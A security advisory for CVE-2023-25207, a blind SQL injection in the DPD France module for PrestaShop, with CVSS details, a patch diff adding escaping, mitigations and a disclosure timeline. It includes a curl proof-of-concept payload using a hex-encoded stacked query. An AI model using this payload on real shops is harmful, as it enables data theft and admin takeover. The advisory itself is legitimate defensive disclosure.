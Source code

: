 ```yaml
---
layout: post
title: "[CVE-2023-25207] Multiple improper neutralizations of an SQL parameters in DPD France module for PrestaShop"
categories: modules
author:
- 202-ecommerce.com
- TouchWeb.fr
- Friends-Of-Presta.org
meta: "CVE,PrestaShop,dpdfrance"
severity: "critical (9.8)"
---
```


In the module "DPD France" (dpdfrance) for PrestaShop, a remote attaker can perform a blind SQL injection in affected versions. Release 6.1.3 fixed vulnerabilities.

## Summary

* **CVE ID**: [CVE-2023-25207](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-25207)
* **Published at**: 2023-03-09
* **Advisory source**: Friends-of-Presta.org
* **Vendor**: PrestaShop
* **Product**: dpdfrance
* **Impacted release**: < 6.1.3
* **Product author**: DPD France SAS
* **Weakness**: [CWE-89](https://cwe.mitre.org/data/definitions/89.html)
* **Severity**: critical (9.8)

## Description

In dpdfrance module for PrestaShop up to 6.1.3, multiple sensitives SQL calls in method `dpdfrance::ajaxSetAddressOrder()` can be executed with a trivial http call and exploited to forge a bind SQL injection.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: none
* **User interaction**: none
* **Scope**: unchanged
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: [CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)

## Possible malicious usage

* Technical and personal data leaks
* Obtain admin access
* Remove all data of the linked PrestaShop
* Display sensitives tables to front-office to unlock potential admin's ajax scripts of modules protected by token on the ecosystem

## Proof of concept

```bash
curl -v -X POST -d 'action_ajax_dpdfrance=setAddressOrder&order=1%27;select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;--' 'https://domain.tld/modules/dpdfrance/ajax.php?dpdfrance_token=EXPOSED_TOKEN_ON_FRONT_OFFICE'
```

## Patch

```diff
--- a/dpdfrance/dpdfrance.php
+++ b/dpdfrance/dpdfrance.php
@@ -977,7 +977,7 @@ class DPDFrance extends CarrierModule
     public function ajaxSetAddressOrder($param)
     {
         $dpdOrder = $this->getDpdOrder($param['order']);
-        $sql      = "UPDATE " . _DB_PREFIX_ . "dpdfrance_order SET override_return_street = '" . (string)$param['street'] . "', override_return_zip = '" . (string)$param['zip'] . "', override_return_city = '" . (string)$param['city'] . "', override_return_phone = '" . (string)$param['phone'] . "' WHERE id_order_dpd = '" . $param['order'] . "';";
+        $sql      = "UPDATE " . _DB_PREFIX_ . "dpdfrance_order SET override_return_street = '" . pSQL($param['street']) . "', override_return_zip = '" . pSQL($param['zip']) . "', override_return_city = '" . pSQL($param['city']) . "', override_return_phone = '" . pSQL($param['phone']) . "' WHERE id_order_dpd = '" . pSQL($param['order']) . "';";
         db::getInstance()->execute($sql);
         $response = ['update' => true];
         $response = json_encode($response);
```

## Other recommandations

* It’s recommended to upgrade the module beyond 6.1.3.
* For PrestaShop 1.6, you need to apply the patch manually.
* Upgrade PrestaShop beyong 1.7.8.8 (and 8.0.1) to disable multiquery executions (separated by ";").
* Change the default database prefix `ps_` by a new longer arbitrary prefix. Nethertheless, be warned that this is useless against blackhat with DBA senior skilled because of a design vulnerability in DBMS
* Activate OWASP 942's rules on your WAF (Web application firewall), be warned that you will probably break your backoffice and you will need to pre-configure some bypasses against these set of rules.

## Timeline

| Date | Action |
|--|--|
| 2022-12-05 | Issue discovered during a code review by 202 Ecommerce and TouchWeb |
| 2022-12-05 | Contact the author |
| 2022-12-20 | Never recieved a response from the author |
| 2022-12-20 | Contact PrestaShop Addons Team |
| 2023-01-27 | Fix published on addons PrestaShop marketplace for PrestaShop 1.7+ only |
| 2023-01-28 | Request a CVE ID |
| 2023-03-08 | Publication of this security advisory |

## Links

* [PrestaShop addons product page](https://addons.prestashop.com/en/shipping-carriers/19414-dpd-france-delivery.html)
* [DPD France module page](https://www.dpd.com/fr/fr/faq/prestashop/)
* [National Vulnerability Database](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-25207)
